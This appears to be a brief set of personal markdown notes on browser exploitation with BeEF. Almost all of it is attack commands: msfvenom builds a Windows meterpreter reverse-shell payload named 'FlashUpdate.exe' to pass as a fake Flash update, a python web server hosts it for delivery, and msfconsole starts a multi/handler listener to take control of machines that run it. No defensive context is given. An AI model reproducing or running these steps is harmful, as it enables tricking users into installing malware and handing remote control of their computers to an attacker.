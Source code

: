 # BeEF for browser exploitation notes

setup a msfvenom payload and host it with python webserver

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<port> -f exe -o /tmp/FlashUpdate.exe
python3 -m http.server 
```

start handler

```
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP>
exploit
```

## Starting Beef

```
beef
```
